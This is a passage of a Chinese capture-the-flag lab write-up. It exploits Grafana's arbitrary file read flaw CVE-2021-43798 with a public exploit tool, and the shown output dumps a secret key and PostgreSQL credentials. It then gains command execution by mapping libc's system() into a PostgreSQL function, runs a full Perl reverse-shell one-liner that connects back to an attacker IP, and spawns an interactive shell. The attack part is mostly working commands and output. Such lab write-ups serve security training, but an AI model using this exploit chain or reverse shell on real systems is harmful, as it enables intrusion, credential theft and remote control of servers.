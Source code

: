 从fscan扫描到的信息发现有grafana

能利用漏洞就只有 SSRF 和任意文件读取

搜索对应版本号，发现存在任意文件读取漏洞CVE-2021-43798,

https://github.com/A-D-Team/grafanaExp/releases

### Grafana任意文件读取漏洞

```
root@web03:/home# ./linux_amd64_grafanaExp exp -u http://172.30.54.12:3000/
```

读到了 postgreSQL 的账号密码

```
root@web03:/tmp# ./grafanaExp_linux_amd64 exp -u http://172.30.54.12:3000
2024/07/04 12:20:59 Target vulnerable has plugin [alertlist]
2024/07/04 12:20:59 Got secret_key [SW2YcwTIb9zpOOhoPsMm]
2024/07/04 12:20:59 There is [0] records in db.
2024/07/04 12:20:59 type:[postgres]     name:[PostgreSQL]               url:[localhost:5432]    user:[postgres] password[Postgres@123] database:[postgres]     basic_auth_user:[]      basic_auth_password:[]
2024/07/04 12:20:59 All Done, have nice day!
```

使用proxifier的全局代理，navicat连上数据库

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250111144552-cwsvuv0.png?imageSlim)​

### flag04：Postgresql提权后读flag

需要用psql提权，所以先改一下root密码

```
ALTER USER root WITH PASSWORD '123456';
```

创建命令执行函数

```
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
```

使用perl弹shell到flag03靶机

```
select system('perl -e \'use Socket;$i="172.30.54.179";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250111150914-7l50gjm.png?imageSlim)​

拿到shell之后由于需要交互shell，所以利用python获取交互shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
